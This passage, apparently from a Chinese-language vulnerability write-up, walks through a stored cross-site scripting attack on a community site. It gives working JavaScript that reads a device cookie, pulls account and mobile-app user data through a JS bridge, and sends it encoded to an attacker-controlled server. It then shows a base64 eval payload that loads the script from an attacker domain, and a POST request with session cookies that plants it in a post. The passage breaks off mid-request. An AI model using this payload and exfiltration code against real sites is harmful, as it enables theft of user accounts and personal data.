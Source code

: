         // 发送请求获取用户信息后，向攻击者服务器外送
        const startSend = async function() {
            const deviceid = getCookieValue('jssdk_deviceid')
            res = await myFetch('https://sowellwell.com/w/v1/account/info', deviceid)
            var encoded = encode(JSON.stringify(res))
            // send data
            justSend(api_burp+'?data='+encoded)
        }

        // 获取手机客户端用户信息
        const getUserInfo = async function(){
            UUJSSDK.Bridge({api: "get_user_info",cbname: "get_user_info_cb",done: function(res) {
                console.log(res["result"])
                var encoded = encode(JSON.stringify(res["result"]))
                UUJSSDK.Bridge({
                    api: "get_app_info",
                    params: {},
                    done: function(res2) {
                        var encoded2 = encode(JSON.stringify(res2))
                        justSend(api_burp+'?userinfo='+encoded+'&appinfo='+encoded2)
                    }
                });
            }})
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
        /* your code here */
            getUserInfo()
        }else{
            startSend()
        }

6. 通过发帖或者评论发送xss payload

    将上述脚本上传到攻击者的服务器，例如`https://my.domain.com/xss.js`，然后构造payload如下：

        "var script=document.createElement('script');script.src='https://my.domain.com/xss.js';document.getElementsByTagName('body')[0].appendChild(script);"

        base64编码后：

        <img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>

    该payload通过发帖来发送：

        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=jssdk_pbRJTpNazMAEeEM2; _sj_web_session_id=_DeAsdSRanqTAC0g039t-HNRDYuBvSxPIK
        Content-Length: 232
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0
        